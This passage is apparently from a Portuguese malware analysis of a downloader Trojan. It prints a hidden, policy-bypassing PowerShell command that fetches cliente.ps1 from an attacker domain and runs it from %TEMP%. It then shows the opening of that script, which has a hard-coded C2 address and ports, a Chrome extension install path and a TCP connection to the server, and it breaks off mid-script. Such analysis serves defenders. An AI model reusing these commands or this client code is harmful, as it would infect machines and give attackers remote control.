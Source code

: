 O próximo passo é o download da carga maliciosa:

```bash
powershell -NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -Command "Invoke-WebRequest -Uri 'https://enota.clientepj.com/cliente.ps1' -OutFile '%TEMP%\cliente.ps1'"
```

O comando acima executa o PowerShell sem interface gráfica (WindowStyle Hidden) com o objetivo de baixa um arquivo `.ps1` (PowerShell) de um servidor controlado pelos atacantes, salva na pasta temporária (%TEMP%) para evitar detecção.

Por fim, o script executa o script `cliente.ps1`.

```shell
powershell -NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -File "%TEMP%\cliente.ps1"
```

Esse funcionamento do script caracteriza um Downloader (Baixador), um tipo de Trojan cuja principal função é baixar e instalar componentes maliciosos da internet no sistema infectado. Diferente de outros malwares, o Downloader não armazena a carga maliciosa em seu código, o que reduz sua detecção por soluções antimalware. Após a execução, ele estabelece conexão com um servidor de comando e controle (C2) ou outra fonte externa para obter e instalar o payload malicioso. Esse mecanismo oferece flexibilidade aos atacantes, permitindo a atualização da carga útil, o envio de diferentes variantes de malware ou até mesmo a adaptação a novos objetivos durante a campanha.

## Análise do Script `cliente.ps1`

O arquivo `cliente.ps1` é um script em PowerShell e parece que foi escrito por uma IA.

```powershell
Add-Type -AssemblyName System.Windows.Forms


#############################################################################
# Configuraçao do Script - Alterar se necessário
$serverIP = "142.54.185.178"
$serverPort = 5555

$textServerIP = "142.54.185.178"
$textServerPort = 5556

$computerName = $env:COMPUTERNAME
$nomeps1 = "cliente.ps1"
$nomebat = "ProcessoTrabalhista.bat"
$nomeextensao = "nplfchpahihleeejpjmodggckakhglee"
$linkexetensao = "nplfchpahihleeejpjmodggckakhglee;https://clients2.google.com/service/update2/crx"
$diretorioExtensoes = "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Extensions\$nomeextensao"
#############################################################################

$textClient = New-Object System.Net.Sockets.TcpClient
$textClient.Connect($textServerIP, $textServerPort)
$textStream = $textClient.GetStream()
$textWriter = New-Object System.IO.StreamWriter($textStream)
$textWriter.AutoFlush = $true

# Enviar mensagem de teste imediatamente
#$textWriter.WriteLine("OKEXT")
#Write-Host "Mensagem OKEXT enviada ao servidor."

# Fechar conexão de teste
#$textClient.Close()

#############################################################################
#Funções para teste de conexões apenas
#$testClient = New-Object System.Net.Sockets.TcpClient
#$testClient.Connect($textServerIP, 5556)
#if ($testClient.Connected) {
```